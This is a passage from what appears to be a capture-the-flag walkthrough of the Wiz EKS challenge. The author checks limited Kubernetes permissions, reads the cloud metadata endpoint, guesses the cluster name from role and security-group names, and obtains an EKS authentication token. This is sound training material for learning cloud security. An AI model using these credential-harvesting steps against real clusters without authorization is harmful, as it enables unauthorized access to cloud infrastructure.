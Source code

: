 ```bash
                                                [/readyz]                             []                 [get]
                                                [/version/]                           []                 [get]
                                                [/version/]                           []                 [get]
                                                [/version]                            []                 [get]
                                                [/version]                            []                 [get]
podsecuritypolicies.policy                      []                                    [eks.privileged]   [use]
```

That is *very* minimal access. So we are going to have to try get a token using
the escalated privileges.  Usually we could use `aws eks get-token` but that
requires knowing the cluster name and I don't know that.   Lets try to list the
clusters:

```bash
root@wiz-eks-challenge:~# aws eks list-clusters

An error occurred (AccessDeniedException) when calling the ListClusters operation: User: arn:aws:sts::688655246681:assumed-role/eks-challenge-cluster-nodegroup-NodeInstanceRole/i-0cb922c6673973282 is not authorized to perform: eks:ListClusters on resource: arn:aws:eks:us-west-1:688655246681:cluster/*
```

So they haven't given us much to go on at all here.  The role itself *might* be
a clue but that is relying on them being consistent with their naming:

```
arn:aws:sts::688655246681:assumed-role/eks-challenge-cluster-nodegroup-NodeInstanceRole/
```

The cluster name *might* be `eks-challenge-cluster` based on that but I can't
guarantee that. Lets check its security groups:

```bash
root@wiz-eks-challenge:~# curl -sS http://169.254.169.254/latest/meta-data/security-groups;echo
eks-cluster-sg-eks-challenge-cluster-963543728
```

The name is there again.  I don't feel good about not having more details but it
is at least worth trying it:

```bash
root@wiz-eks-challenge:~# aws eks get-token --cluster-name eks-challenge-cluster
{
    "kind": "ExecCredential",
    "apiVersion": "client.authentication.k8s.io/v1beta1",
    "spec": {},
    "status": {
        "expirationTimestamp": "2023-11-03T03:38:10Z",
        "token": "k8s-aws-v1.aHR0cHM6Ly9zdHMudXMtd2VzdC0xLmFtYX<*REDACTED*"
    }
}
```
